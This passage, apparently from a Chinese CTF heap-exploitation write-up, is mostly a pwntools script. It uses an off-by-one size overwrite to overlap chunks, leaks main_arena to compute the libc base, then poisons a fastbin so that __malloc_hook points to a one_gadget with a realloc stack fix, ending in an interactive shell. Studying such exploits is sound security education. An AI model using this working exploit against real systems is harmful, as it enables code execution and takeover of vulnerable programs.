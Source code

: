 ```text
        r.recvuntil("choice: ")
        r.sendline("3")
        r.sendlineafter("idx?",str(idx))
def free(idx):
        r.recvuntil("choice: ")
        r.sendline("4")
        r.sendlineafter("idx?",str(idx))


#gdb.attach(r)
add(0x18,b'a')#0
add(0x68,b'a')#1
add(0x68,b'a')#2
add(0x18,b'a')#3 阻断top chunk

edit(0,b'a'*0x18+b'\xe1')
free(1)
add(0x68,b'a'*0x08)#1 切割unsortedbin 使得2进入unsortedbin泄露main_arena
dump(2)
leak=u64(r.recv(6).ljust(8,b'\x00'))
print(hex(leak))

libc_base=leak-(0x3c4b78)#0x7f2c05c6cb78-0x7f2c058a8000
realloc_addr=libc_base+libc.sym['__libc_realloc']
malloc_hook=libc_base+libc.sym['__malloc_hook']
fake_chunk_addr=malloc_hook-0x23
one_gadget=libc_base+0x4526a
print(hex(realloc_addr))
print(hex(fake_chunk_addr))
add(0x68,b'a'*0x08)# 4与2同时指向0x70
free(4)
edit(2,p64(fake_chunk_addr))
add(0x68,b'a'*0x08)#4
payload=b'a'*(0x13-0x08)+p64(one_gadget)+p64(realloc_addr+12)
add(0x68,payload)#5
r.recvuntil("choice: ")
r.sendline("1")
r.sendlineafter("size?",str(0x18))
print(hex(libc.sym['__malloc_hook']))
r.interactive()
```

结果如下

![](https://pic2.zhimg.com/80/v2-9e2e0378a9310d9c5d0cb83bdf55e82d_720w.webp)

```text
缓冲区溢出基础与实践
```